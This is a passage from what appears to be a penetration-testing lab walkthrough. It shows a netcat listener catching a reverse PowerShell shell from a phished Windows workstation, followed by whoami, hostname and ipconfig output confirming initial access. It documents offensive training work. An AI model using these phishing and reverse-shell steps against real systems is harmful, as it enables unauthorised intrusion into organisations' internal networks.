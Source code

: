 
Checking nc listener and receive reverse shell
```hlt:8
listening on [any] 4444 ...
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 64264
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> 
```

Phishing attack worked! 

Display current user, hostname, and IP to confirm initial access on internal network
```hlt:2,3,6,7,10,18
PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
beyond\marcus

PS C:\Windows\System32\WindowsPowerShell\v1.0> hostname
hostname
CLIENTWK1

PS C:\Windows\System32\WindowsPowerShell\v1.0> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.6.243
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.6.254
PS C:\Windows\System32\WindowsPowerShell\v1.0>
```

